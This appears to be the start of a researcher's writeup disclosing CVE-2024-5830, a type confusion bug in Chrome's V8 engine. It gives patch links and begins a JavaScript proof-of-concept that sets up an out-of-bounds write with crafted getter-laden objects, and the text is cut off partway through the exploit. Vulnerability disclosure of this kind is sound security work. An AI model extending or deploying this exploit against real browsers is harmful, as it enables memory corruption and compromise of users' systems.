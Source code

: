 author: [@buptsb](https://x.com/buptsb), [@mistymntncop](https://x.com/mistymntncop)
2024-06-21 07:25:47

https://x.com/buptsb/status/1803971146435694991

_This writeup is the FIRST public disclosure for this vulnerability._

# Info
[$25000][342456991] High CVE-2024-5830: Type Confusion in V8. Reported by Man Yue Mo of GitHub Security Lab on 2024-05-24
https://chromereleases.googleblog.com/2024/06/stable-channel-update-for-desktop.html
https://chromium-review.googlesource.com/c/v8/v8/+/5588058

git checkout cbd847cb1c2eaa126f0b96f002241c2ef5aa7c89^

This feature/bug was added in M125 on 2024.03.19:
Reland "[object] Fast path for adding props with existing transition"
https://chromium-review.googlesource.com/c/v8/v8/+/5378402
https://chromiumdash.appspot.com/commits?commit=f6b1dd8ec7cad9f9794b5176be1bed7e06584015&platform=Linux
![image](https://github.com/buptsb/blog/assets/666724/45d8cb33-977f-4d7e-9951-ce5cb00cb21d)

# PoC
https://gist.github.com/buptsb/c4666cce54b1beae54adb4a4bb9d0390

```js
var victim;

const N = 121;
const heapnumber_key = 63;
const prefix = "pp";
const property_details_value = 0x21;
// u may need to change this `oob_write_offset` based on the victim array's addresss
const oob_write_offset = 0x3e0000;

const first_getter_index = 4;
var flag = false;

let source1 = {pp0: 0, pp1: 1, pp2: 2, pp3: 3, get pp4() { return 4; },pp5: 5, pp6: 6, pp7: 7, pp8: 8, pp9: 9, pp10: 10, pp11: 11, pp12: 12, pp13: 13, pp14: 14, pp15: 15, pp16: 16, pp17: 17, pp18: 18, pp19: 19, pp20: 20, pp21: 21, pp22: 22, pp23: 23, pp24: 24, pp25: 25, pp26: 26, pp27: 27, pp28: 28, pp29: 29, pp30: 30, pp31: 31, pp32: 32, pp33: 33, pp34: 34, pp35: 35, pp36: 36, pp37: 37, pp38: 38, pp39: 39, pp40: 40, pp41: 41, pp42: 42, pp43: 43, pp44: 44, pp45: 45, pp46: 46, pp47: 47, pp48: 48, pp49: 49, pp50: 50, pp51: 51, pp52: 52, pp53: 53, pp54: 54, pp55: 55, pp56: 56, pp57: 57, pp58: 58, pp59: 59, pp60: 60, pp61: 61, pp62: 62, pp63: 63, pp64: 64, pp65: 65, pp66: 66, pp67: 67, pp68: 68, pp69: 69, pp70: 70, pp71: 71, pp72: 72, pp73: 73, pp74: 74, pp75: 75, pp76: 76, pp77: 77, pp78: 78, pp79: 79, pp80: 80, pp81: 81, pp82: 82, pp83: 83, pp84: 84, pp85: 85, pp86: 86, pp87: 87, pp88: 88, pp89: 89, pp90: 90, pp91: 91, pp92: 92, pp93: 93, pp94: 94, pp95: 95, pp96: 96, pp97: 97, pp98: 98, pp99: 99, pp100: 100, pp101: 101, pp102: 102, pp103: 103, pp104: 104, pp105: 105, pp106: 106, pp107: 107, pp108: 108, pp109: 109, pp110: 110, pp111: 111, pp112: 112, pp113: 113, pp114: 114, pp115: 115, pp116: 116, pp117: 117, pp118: 118, pp119: 119, pp120: 1, get pp121() { return callback(); },};
```